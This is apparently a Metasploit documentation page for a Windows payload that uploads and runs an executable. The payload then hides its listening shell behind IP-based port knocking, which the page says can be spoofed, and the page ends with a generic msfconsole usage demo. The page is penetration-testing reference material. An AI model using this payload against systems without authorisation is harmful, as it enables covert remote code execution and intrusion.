 ## Windows Upload/Execute, Hidden Bind Ipknock TCP Stager

Uploads an executable and runs it (staged). Listen for a 
connection. First, the port will need to be knocked from the 
IP defined in KHOST. This IP will work as an authentication 
method (you can spoof it with tools like hping). After that 
you could get your shellcode from any IP. The socket will 
appear as "closed," thus helping to hide the shellcode


## Module Name
payload/windows/upexec/bind_hidden_ipknock_tcp

## Authors
* vlad902
* sf
* hdm
* skape
* Borja Merino <bmerinofe[at]gmail.com>





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/bind_hidden_ipknock_tcp
msf payload(bind_hidden_ipknock_tcp) > show targets
   ... a list of targets ...
msf payload(bind_hidden_ipknock_tcp) > set TARGET <target-id>
msf payload(bind_hidden_ipknock_tcp) > show options
   ... show and set options ...
msf payload(bind_hidden_ipknock_tcp) > run
```
    
    